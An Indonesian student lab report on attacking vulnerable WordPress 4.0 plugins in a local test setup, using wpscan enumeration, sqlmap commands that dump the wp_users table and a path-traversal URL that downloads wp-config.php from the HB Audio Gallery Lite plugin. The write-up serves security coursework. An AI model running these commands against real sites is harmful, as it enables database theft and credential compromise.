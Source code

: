 ##Dokumentasi Perancangan Keamanan Sistem dan Jaringan

>###Penulis
>* M. Syaiful Jihad A.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100022
>* Yoga Bayu Aji P.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100023
>* Bagas Andita S.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100029

##Percobaan Serangan pada Plugins CMS Wordpress

##Simulasi dan skema serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Percobaan kali ini akan melakukan serangan pada celah keamanan yang ada pada plugin wordpress. Alat yang digunakan menggunakan wordpress versi 4.0. Kemudian akan diinstall beberapa plugin yang memiliki celah keamanan.

###Persiapan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pertama kita siapkan dulu CMS Wordpress yang akan digunakan. CMS dapat diunduh dari link [berikut](http://https://wordpress.org/download/).

####Langkah Installasi
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Persiapan untuk melakukan installasi wordpress:
- Web Server (Apache)
- Database (MySQL)
- PHP (5.6)

Sebelum melakukan installasi wordpress, kita persiapkan database dan usernya terlebih dahulu. Pada percobaan kali ini didapatkan konfigurasi sebagai berikut
>Database: wordpress
>DB Username: wordpressuser
>DB Password: wppasswd

Setelah semua terinstall maka extract CMS wordpress yang sudah kita download tadi kedalam folder /var/www/html. Setelah itu buat file konfigurasi wordpress. Dalam wordpress sudah disediakan contoh file konfigurasi sehingga kita dapat menggunakannya.
```
cp wp-config-sample.php wp-config.php
```
Setelah itu kita edit file ++wp-cinfig.php++ dan masukan konfigurasi koneksi database seperti pada gambar dibawah

![wp-config](asset/tugas2/wp-config.png)

Setelah itu kita buka wordpress dari web browser dan masukkan konfigurasi password admin login dan nama website. Username yang digunakan:
>Username: testing
>Password: testing

Setelah semua konfigurasi selesai, kita menginstall plugin yang akan kita pasang dan melakukan uji coba serangan. Cara menginstallasi plugin tersebut, kita meletakkan plugin yang sudah kita download kedalam folder wp-content/plugins/. Setelah itu kita masuk kedalam dashboard admin pada wordpress dan melakukan aktivasi plugin yang sudah kita install.

![activate](asset/tugas2/activate.png)

###Uji Coba Serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan plugin wordpress, kali ini kita menggunakan Sistem Operasi Kali Linux. Setelah melakukan installasi, kita melakukan enumerasi terhadap target untuk mengetahui apa saja celah keamanan yang ada pada website tersebut. Tools yang digunakan adalah [WPScan](http://wpscan.org). Untuk melakukan enumerasi gunakan perintah:
```
wpscan --url http://target.com --enumerate
```
```
# wpscan --url http://10.151.36.38/wordpress --enumerate
```

Maka akan muncul seperti ini:

![wpscan_init](asset/tugas2/wpscan_init.png)

####Uji Coba Dengan Plugin Video Player 1.5.16
berikut ini adalah tampilan plugin video player 1.5.16
![videoplayer](asset/tugas2-023/12.PNG)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![serang1](asset/tugas2-023/13.PNG)

kemudian akan ditemukan sebuah username yang digunakan untuk login pada website seperti berikut ini :

![serang2](asset/tugas2-023/15.PNG)
catatan : alamat website adalah alamat website berbeda (dengan IP address 192.168.232.129)

####Uji Coba Menggunakan League Manager 3.9.1.1
Pada tahap ini dilakukan instalasi plugin league manager versi 3.9.1.1. berikut ini adalah tampilan plugin league manager 3.9.1.1 ketika sudah diaktifkan :

![league manager 3.9.1.1](asset/tugas2-023/14.PNG)

Pada uji coba ini dihasilkan hasil yang sama seperti ketika menggunakan plugin video player 1.5.16

![league](asset/tugas2-023/16.PNG)

####Uji Coba Serangan SQL Injection
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan SQL Injection, maka kita memerlukan tools yang bernama [sqlmap](http://sqlmap.org). Kali ini kita akan mencoba melakukan serangan pada plugin League Manager dengan celah keamanan seperti pada website [ini](https://www.exploit-db.com/exploits/37182/). 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukannya kita akan menyerang link dari pertandingan yang ada pada website tersebut. Perintah yang  digunakan untuk mendapatkan database yang digunakan adalah:
```
sqlmap --url "http://target.com/?match=1" --level 5 --risk 3 -dbs
```
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 -dbs
```

Maka akan dihasilkan :
![getDB](asset/tugas2/getDB.png)

Selanjutnya kita akan mencari tabel yang ada dalam database tersebut. Perintah yang digunakan adalah sebagai berikut ini:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --tables -D wordpress
```
Akan muncul semua tabel yang ada. Disini kita menumukan table wp_user, untuk itu kita akan melihat data apa saja yang ada dalam tabel tersebut. Perintah yang digunakan adalah:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --dump -D wordpress -T wp_users
```

Tara, kita mendapatkan hasil username dan password dari login wordpress yang terdaftar.

![getUser](asset/tugas2/getUser.png)

>Note: hasil password didapat karena hash sudah ada dalam dictionary

####Uji Serangan pada Plugin HB Audio Gallery Lite 1.0.0
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pada plugin tersebut terdapat sebuah celah keamanan berupa Arbitrary File Donwload. Jadi celah keamanan ini dapat mendownload file yang seharusnya tidak boleh diakses oleh pengguna. Dokumentasi dari celah ini dapat dibaca [disini](https://www.exploit-db.com/exploits/39589/). Cara memanfaatkan celah ini adalah dengan menggunakan  perintah:
```
/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=../../../../wp-config.php&file_size=10
```

Setelah menjalankan perintah tersebut maka file wp-config.php akan didownload.
![getWp-config](asset/tugas2/getWp-config.png)